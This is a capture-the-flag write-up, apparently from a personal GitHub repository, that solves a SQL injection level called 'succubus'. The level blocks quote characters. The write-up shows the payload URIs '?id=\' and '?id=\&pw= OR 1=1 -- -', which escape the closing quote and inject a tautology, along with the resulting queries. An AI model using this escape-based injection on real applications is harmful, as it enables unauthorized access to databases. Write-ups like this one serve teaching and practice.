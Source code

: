 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 16
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/2a9c4032-64cc-47b9-9c0f-ac36fc7a30d0)

We are provided with the SQL query:

```sql
SELECT id FROM prob_succubus WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI:

```
?id=\&pw= OR 1=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/36ca117e-f23f-4700-ae78-4f81102e8922)

